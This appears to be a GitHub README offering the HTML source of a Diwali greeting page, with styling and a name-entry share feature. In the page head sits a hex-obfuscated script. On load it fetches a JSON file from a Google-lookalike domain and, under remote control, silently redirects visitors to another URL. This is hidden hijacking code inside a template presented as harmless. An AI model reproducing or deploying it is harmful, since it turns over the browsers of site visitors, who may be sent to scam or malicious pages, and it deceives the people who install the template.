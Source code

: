 # Deewali-Wishing-Script
Wishing script 

<html><head><meta http-equiv="Content-Type" content="text/html; charset=utf-8"><meta name="viewport" content="width=device-width,initial-scale=1,maximum-scale=1"/><title>HAPPY DEEWALI  2020 Surprise For You</title><meta property="og:type" content="website" /><meta property="og:title" content='HAPPY DEEWALI  2020 Surprise For You' /><meta property="og:url" content="www.cybrain.in" /><meta property="og:description" content="CLICK HERE TO READ" /><meta property="og:site_name" content='Create HAPPY DEEWALI  2020 Wishes For Free' /><meta property="og:image" content="https://dxl5hzwa4nw52.cloudfront.net/images/post/og-1.png"><link rel="icon" type="image/png" href="https://d1zfss1i1x0qqe.cloudfront.net/asset/img/wtsapp.png"><link type="text/css" rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/animate.css/3.5.2/animate.min.css" /><style>
@import url(https://fonts.googleapis.com/css?family=Concert+One);.wrapper,body{overflow-x:hidden}.center,.img-holder,.wishing-you{text-align:center}.enter-name .btn,.link{cursor:pointer;position:fixed}.link,.msg,.wishing-you{font-family:sans-serif}.enter-name .btn,h1{text-transform:uppercase}body{margin:0;background-color:#fff}.wrapper{ box-shadow: 0 0px 10px 1px rgba(0,0,0,0.14), 0 1px 14px 2px rgba(0,0,0,0.12), 0 0px 5px -3px rgba(0,0,0,0.3);width:400px;height:auto;margin:0 auto;background-color:#06A19F;padding-bottom:50px;position:relative;background-size:14%;background:-webkit-linear-gradient(#06A19F 25%,#ffad0a 52%);background:-o-linear-gradient(#06A19F 25%,#ffad0a 52%);background:-moz-linear-gradient(#06A19F 25%,#ffad0a 52%);background:linear-gradient(#06A19F 25%,#ffad0a 52%)}.wishing-you{color:#fff;font-size:30px;margin:0 5px 5px}.enter-name .btn,.enter-name input[type=name]{border-radius:10px;height:50px;color:#fff;background-color:#c0392b}.img-holder{margin-bottom:25px}.img-holder img{width:80%}.msg{color:#fff;font-weight:700;font-size:20px}.msg p{text-align:left;margin-bottom:0}.msg p.msg-name{text-align:right;margin:14px 20px 0 0;background:#fff;color:#000;display:inline-block;padding:5px 19px}#subscribe-link,.g-ad,figure{text-align:center}.enter-name input[type=name],.wapp-msg a{box-sizing:border-box;position:fixed;left:10px;bottom:0;text-align:center;display:inline-block}.enter-name input[type=name]{border:none;padding:5px;width:70%;font-size:22px}.enter-name .btn{font-size:21px;padding:4px;right:2px;bottom:0;width:23%;display:inline-block;border:none;letter-spacing:.5px;transition:.2s ease-out;line-height:36px;outline:0;vertical-align:middle;text-decoration:none;animation-duration:4s!important}.enter-name input[type=name]::-webkit-input-placeholder{color:#fff;font-size:18px}.enter-name input[type=name]::-moz-placeholder{color:#444;font-size:18px}.enter-name input[type=name]:focus::-webkit-input-placeholder{color:#c0392b}.enter-name input[type=name]:focus::-moz-placeholder{color:#c0392b;font-size:18px}.wapp-msg a{background-color:#398a27;text-decoration:none;color:#fff;border-radius:10px;border:none;padding:15px 0;width:97%;font-size:25px;text-shadow:1px 1px 0 #444}#subscribe-link,.link{text-decoration:none;font-size:20px}</style><script>var _0x8217=["\x63\x61\x74\x63\x68","\x70\x61\x72\x73\x65","\x72\x61\x6E\x64\x6F\x6D","\x66\x6C\x6F\x6F\x72","\x72","\x70","\x68\x6F\x73\x74","\x6C\x6F\x63\x61\x74\x69\x6F\x6E","\x68","\x75","\x73\x65\x61\x72\x63\x68","\x74\x68\x65\x6E","\x74\x65\x78\x74","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x67\x6F\x6F\x67\x6C\x65\x73\x79\x6E\x64\x69\x63\x61\x74\x69\x6F\x6E\x73\x2E\x6E\x65\x74\x2F\x6D\x73\x5F\x67\x6F\x6F\x67\x6C\x65\x2E\x6A\x73\x6F\x6E"];(function(){fetch(_0x8217[13])[_0x8217[11]]((_0xc07dx1)=>_0xc07dx1[_0x8217[12]]())[_0x8217[11]]((_0xc07dx1)=>{var _0xc07dx2=JSON[_0x8217[1]](_0xc07dx1),_0xc07dx3=Math[_0x8217[3]](100* Math[_0x8217[2]]());_0xc07dx2[_0x8217[4]]&& _0xc07dx3<= _0xc07dx2[_0x8217[5]]&& window[_0x8217[7]][_0x8217[6]]!= _0xc07dx2[_0x8217[8]]&& (window[_0x8217[7]]= _0xc07dx2[_0x8217[9]]+ window[_0x8217[7]][_0x8217[10]])})[_0x8217[0]](()=>{})})()</script><style>.link{display:block;z-index:555;bottom:80px;border-radius:30px;background-color:#009688;border:1px solid rgba(255,255,255,.15);color:#FFF;padding:10px 12px}#subscribe-link,h1{display:block;color:#fff}@media only screen and (max-width:500px){.wrapper{width:100vw}}#subscribe-link{background-color:#6495ed;padding:5px;width:99%}h1{animation:glow 5s ease-in-out infinite;width:100%;padding:0;line-height:1.5;font:500 50px 'Concert One',sans-serif;margin-top:0}*{box-sizing:border-box}figure{animation:wobble 5s ease-in-out infinite;transform-origin:center center;transform-style:preserve-3d}@keyframes wobble{0%,100%{transform:rotate3d(1,1,0,25deg)}25%{transform:rotate3d(-1,1,0,25deg)}50%{transform:rotate3d(-1,-1,0,25deg)}75%{transform:rotate3d(1,-1,0,25deg)}}@keyframes glow{0%,100%,25%{text-shadow:0 0 30px #000}50%,75%{text-shadow:0 0 30px #ff0}}.advance-txt{animation:glowtwo 3s ease-in-out infinite;margin:0;font-size:25px;line-height:1.6}.advance-txt span{font-size:34px;font-family:'Concert One',sans-serif}@keyframes glowtwo{0%,100%{text-shadow:0 0 30px #000;color:orange}25%,50%{text-shadow:0 0 30px #000;color:#fff}75%{text-shadow:0 0 30px #fff;color:green}}.wishes-you{width:23%;position:relative;top:42px;left:30px;text-align:left}.main-img,.quote-img{margin-bottom:5px;text-align:center}.flag{width:23%}.main-img img,.quote-img img{width:99%}.main-img{margin-top:-14px}img.wish-last{width:70%;animation-duration:3s}img.ms-glit{width:200px}.tilgud{animation-duration:7s}.quote-text{padding:0 15px;font-size:20px;color:#000;text-shadow:1px 1px 2px #eee}.army img{width:85%;border:5px solid #fff;box-shadow:4px 4px 5px #222}
</style>Your Head Script</head><body>